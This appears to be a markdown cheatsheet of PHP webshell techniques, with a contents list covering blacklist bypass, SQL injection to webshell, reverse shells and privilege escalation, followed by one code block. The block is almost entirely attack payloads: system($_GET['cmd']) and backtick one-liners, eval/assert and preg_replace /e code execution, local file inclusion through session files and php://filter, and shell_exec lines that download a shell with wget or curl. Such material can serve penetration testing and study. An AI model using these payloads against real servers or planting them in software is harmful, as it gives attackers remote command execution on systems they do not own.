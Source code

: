 # Webshell
*  [Webshell cheatsheet](#webshell-cheatsheet)  
*  [Bypass blacklist extension](#bypass-blacklist-extension)  
*  [SQL inj to webshell](#sql-inj-to-webshell)  
*  [Don't delete my webshell](#dont-delete-my-webshell)  
*  [Reverse shell](#reverse-shell)  
*  [weevely shell](#weevely-shell)  
*  [Privilege escalation](#privilege-escalation)  
*  [Reference](#reference)

# Webshell cheatsheet
```php
<?php system('ls'); ?>
<?php system(ls); ?>
<?php system($_GET['cmd']); ?>
<?php system($_GET[1]); ?>

<?php passthru('ls'); ?>


// blind
<?php shell_exec('echo 1>1'); ?>        // 1=echo 1>1
<?php shell_exec('>1');    ?>        // 1=>1

<?php shell_exec('wget -O 1.php url');   ?> // download shell
<?php shell_exec('curl -o 1.php url');  ?>  // default to download index.html

<?=`$_GET[1]`;          ?>         // <?= is used to shorten the <?php echo `blah`;
// `` won't show the result just as exec, so we also need echo
echo `$_GET[1]`;&1=ls

// $( cmd )
// command substitution
// https://unix.stackexchange.com/questions/147420/what-is-in-a-command

echo "{${phpinfo()}}";
echo "{${system("ls")}}";
die("...");


// local file inclusion
include$_GET[1];             // the space between the them can be ignored
include /var/lib/php/sessions/sess_xxxxx  // when the content of session is controllable

// write the shell encoded with base64, then decode
$_GET[1](file,chracter,8);&1=file_put_contents .....
include$_GET[0];&0=php://filter/read=convert.base64-decode/resource=file


// PHP code execution
<?php eval('echo `ls`;');    ?>   // the code inside of eval need to end with ;
<?php assert('phpinfo();');   ?> // the code inside of assert don't need to end with ;

<?php preg_replace("/\[(.*)]/e",'\\1',$_GET['str']);  ?> // ？str=[phpinfo()]
// execute only when match
// from PHP 5.5, it will cause to error of E_DEPRECATED
// after PHP 7.0.0, we need to use preg_replace_callback() to replace it


// extended array and callback function, the feature of PHP after 5.4  
?1[]=blah&1[]=system();&2=assert     
```